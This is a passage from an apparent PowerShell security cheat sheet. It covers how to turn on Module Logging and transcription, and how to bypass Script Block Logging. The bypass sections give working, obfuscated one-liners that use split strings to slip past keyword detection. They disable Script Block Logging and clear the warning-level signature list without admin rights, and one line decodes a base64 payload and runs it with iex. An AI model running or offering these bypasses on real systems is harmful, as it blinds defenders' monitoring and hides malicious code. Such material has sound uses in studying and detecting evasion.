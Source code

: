 We can also modify the registry. Set `EnableModuleLogging` to `1`:

```
HKLM\SOFTWARE\Wow6432Node\Policies\Microsoft\Windows\PowerShell\ModuleLogging
```

And create a key `*` and set it to `*` for all modules.

```
HKLM\SOFTWARE\Wow6432Node\Policies\Microsoft\Windows\PowerShell\ModuleLogging\ModuleNames
```

### Bypass Script Block Logging

Script Block logging can be bypassed on the current session without admin rights by disabing it from the Group Policy Cache.

```powershell
$GroupPolicyField=[ref].Assembly.GetType('System.Management.Automation.Utils')."GetFie`ld"('cachedGroupPolicySettings','N'+'onPublic,Static')If($GroupPolicyField) {$GroupPolicyCache=$GroupPolicyField.GetValue($null)If($GroupPolicyCache['ScriptB'+'lockLogging']) {$GroupPolicyCache['ScriptB'+'lockLogging']['EnableScriptB'+'lockLogging']=0$GroupPolicyCache['ScriptB'+'lockLogging']['EnableScriptBlockInvocationLogging']=0}$val=[System.Collections.Generic.Dictionary[string,System.Object]]::new()$val.Add('EnableScriptB'+'lockLogging',0)$val.Add('EnableScriptB'+'lockInvocationLogging',0)$GroupPolicyCache['HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\ScriptB'+'lockLogging']=$val}

```
* [https://cobbr.io/ScriptBlock-Logging-Bypass.html](https://cobbr.io/ScriptBlock-Logging-Bypass.html)

### Unload Warning Level Script Block Logging

Recall that the Warning level script block logging which is enabled by default uses a lis of known bad words.

Turns out the logging can be bypassed for the current session without admin rights by setting the list of signatures field in the ScriptBlock class to `null`.

```powershell
# The bypass
[ScriptBlock]."GetFiel`d"('signatures','N'+'onPublic,Static').SetValue($null,(New-ObjectCollections.Generic.HashSet[string]))

# To use a base64 encoded payload script with the bypass
[ScriptBlock]."GetFiel`d"('signatures','N'+'onPublic,Static').SetValue($null,(New-ObjectCollections.Generic.HashSet[string]));[Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('IgA8AE0AeQAgAHMAdQBzAHAAaQBjAGkAbwB1AHMAIABOAG8AbgBQAHUAYgBsAGkAYwAgAHAAYQB5AGwAbwBhAGQAPgAiAA=='))|iex
```

## System-Wide Transcription

Enables transciption (console logging) for everything which uses PowerShell engine such as powershell.exe, PowerShell ISE, custom hosts, .NET dll, msbuild, installutil, etc...

Can be enabled using Group Policy (GPO). By default transcripts are saved in the user's "My Documents" directory.
